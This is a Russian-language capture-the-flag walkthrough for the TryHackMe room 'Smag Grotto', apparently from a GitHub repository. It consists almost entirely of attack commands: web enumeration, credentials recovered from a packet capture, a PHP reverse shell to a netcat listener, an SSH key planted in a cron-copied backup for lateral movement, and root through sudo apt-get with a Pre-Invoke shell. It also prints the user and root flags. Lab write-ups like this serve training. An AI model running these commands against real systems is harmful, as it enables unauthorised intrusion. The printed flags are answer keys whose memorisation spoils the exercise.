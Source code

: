 [>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)

# Комната [Smag Grotto](https://tryhackme.com/r/room/smaggrotto) 

Всего 1 заданиe:
## Задание 1
Разверните машину и получите права root.

### Ответьте на вопросы ниже
Что такое флаг пользователя?
```commandline
nmap <IP>
gobuster dir -u http://<IP>/ --wordlist=/usr/share/wordlists/dirb/big.txt
# http://<IP>/mail
# http://<IP>/aW1wb3J0YW50/dHJhY2Uy.pcap
username:helpdesk 
password:cH4nG3M3_n0w
# http://<IP>/admin.php

php -r '$sock=fsockopen("<IP>",4444);exec("/bin/bash -i <&3 >&3 2>&3");'
rlwrap nc -nlvp 4444
SHELL=/bin/bash script -q /dev/null
cd /home/jake
ls -la
cat user.txt
cat /etc/crontab
ls -l /opt/.backups/jake_id_rsa.pub.backup
ssh-keygen -t rsa
echo "ssh-rsa ....= kali@kali" > /opt/.backups/jake_id_rsa.pub.backup
ssh jake@<IP>
cat user.txt
```
```commandline
iusGorV7EbmxM5AuIe2w499msaSuqU3j
```

Что такое корневой флаг?
```commandline
sudo -l
sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/sh
whoami
cat /root/root.txt
```
```commandline
uJr6zRgetaniyHVRqqL58uRasybBKz2T
```

[>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)